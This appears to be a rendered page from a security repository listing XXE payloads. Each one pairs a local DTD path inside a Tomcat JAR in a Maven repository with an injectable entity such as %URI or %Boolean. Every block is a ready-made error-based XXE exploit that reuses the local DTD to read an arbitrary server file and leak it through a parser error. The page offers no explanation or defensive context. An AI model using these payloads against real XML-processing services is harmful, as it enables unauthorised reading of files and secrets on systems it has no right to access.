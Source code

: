 **XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/tomcat/embed/tomcat-embed-jasper/7.0.65/tomcat-embed-jasper-7.0.65.jar!/javax/servlet/jsp/resources/jspxml.dtd">

    <!ENTITY % URI '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/tomcat/tomcat-coyote/7.0.47/tomcat-coyote-7.0.47.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd`

**Injectable entity:** `%Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/tomcat/tomcat-coyote/7.0.47/tomcat-coyote-7.0.47.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/tomcat/tomcat-jsp-api/7.0.59/tomcat-jsp-api-7.0.59.jar!/javax/servlet/jsp/resources/jspxml.dtd`

**Injectable entity:** `%URI`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/tomcat/tomcat-jsp-api/7.0.59/tomcat-jsp-api-7.0.59.jar!/javax/servlet/jsp/resources/jspxml.dtd">

    <!ENTITY % URI '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
```